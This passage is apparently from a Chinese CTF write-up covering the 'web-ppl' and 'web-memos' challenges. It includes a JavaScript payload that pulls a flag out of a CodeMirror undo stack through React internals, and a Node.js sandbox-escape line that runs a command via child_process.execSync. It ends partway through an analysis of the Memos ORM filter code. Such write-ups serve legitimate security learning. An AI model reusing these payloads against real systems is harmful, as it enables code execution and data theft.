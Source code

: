 ```javascript
}

let myVal = "";

Array.from(chunks).forEach((el) => {
    myVal += getElText(el);
});

document.querySelector("#noiseInput").value = myVal;
```
## 概率题目概率过 `web-ppl`
因为并不是面向常规开发的语言，WebPPL缺少了很多的语言特性，包括但不限于循环、闭包等。
### 前端开发
遇到的一系列问题：
* `document.title` 无法直接赋值，需要使用`_.assign`。
* 尝试过向编辑器发送`Ctrl + Z`，但是并没有成功。
* 尝试过只能偷取上次运行脚本的输出，但清除输出的操作在实际运行脚本之前，因此无法获取到输出。

注意到代码编辑器是一个非常成熟的工具，大概率具有完整的撤销栈，因此可以尝试获取撤销栈的内容。

查阅[资料](https://stackoverflow.com/questions/29321742/react-getting-a-component-from-a-dom-element-for-debugging)，发现可以通过`__reactInternalInstance$`开头的属性获取到实际的React组件。
于是使用这种方式最终成功拿到了CodeMirror的实例，从而获取到了撤销栈的内容。

由于`__reactInternalInstance$`后面的内容是随机的，因此需要使用`Object.keys`获取到实际的属性名。实际Flag在撤销栈中的位置需要在本地用题目给出的脚本调试一下，因为输入方式不同而构建出的撤销栈也不同。
```javascript
_.assign(document, {title: JSON.stringify(document.querySelector(".wpedit")[Object.keys(document.querySelector(".wpedit"))[0]]._currentElement._owner._instance.refs.editor.getCodeMirror().doc.history.done[15]) });
```
### 后端开发
谁说没有`require`的？
```javascript
console.log(process.mainModule.require("child_process").execSync("/readflag2").toString());
```
## ICS笑传之查查表 `web-memos`
> I think memos have some bug in its ORM implementation and I've already applied a patch for that. Have a good time!

既然如此，那我们就来看看这个站的ORM实现。

注意到列出所有Memo的接口是`memos.api.v1.MemoService/ListMemos`，于是找到这个接口的代码，在 https://github.com/usememos/memos/blob/e5cb2037e4c0772da2785dcef6475c301f58776c/server/router/api/v1/memo_service.go#L109 ，实际构建查询的代码在 https://github.com/usememos/memos/blob/60a0ead0fa67aa4164400d89a7c98287cdd7b78b/server/router/api/v1/memo_service.go#L907C1-L917C3 。
```go
// func (s *APIV1Service) ListMemos(ctx context.Context, request *v1pb.ListMemosRequest) (*v1pb.ListMemosResponse, error)
if err := s.buildMemoFindWithFilter(ctx, memoFind, request.Filter); err != nil {
	return nil, status.Errorf(codes.InvalidArgument, "failed to build find memos with filter: %v", err)
}

// func (s *APIV1Service) buildMemoFindWithFilter(ctx context.Context, find *store.FindMemo, filter string) error
if user == nil {
	if filter == "" {
		// If no filter is provided, return an error.
		return status.Errorf(codes.InvalidArgument, "filter is required for unauthenticated user")
	}

	find.VisibilityList = []store.Visibility{store.Public}
```